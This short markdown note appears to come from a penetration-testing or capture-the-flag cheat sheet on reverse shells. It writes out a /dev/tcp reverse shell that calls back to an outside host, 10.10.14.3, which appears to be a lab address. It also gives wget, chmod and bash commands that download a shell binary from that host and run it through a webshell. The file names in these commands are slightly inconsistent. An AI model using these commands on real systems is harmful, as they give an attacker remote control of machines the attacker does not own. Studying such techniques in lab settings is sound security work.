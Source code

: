 # Reverse Shells  


## Reverse Shell Not Working & You Have a WebShell  

* We can do the following to, maybe, get that working   

  <blockquote>
  Getting a reverse shell using the above command didn't work. Let's create a reverse shell, start an
  HTTP server locally and download it to the remote machine
  </blockquote>

  * Like this code --> `echo "0<&196;exec 196<>/dev/tcp/10.10.14.3/5555; sh <&196 >&196 2>&196" > shell
php -S 0.0.0.0:8000`.    

* Then from the webshell I enter the following   
  ```
  wget http://10.10.14.3:8000/shell-x64.elf -O /tmp/shell
  chmod +x /tmp/shell
  bash /tmp/shell
  ```


## Reverse Shells 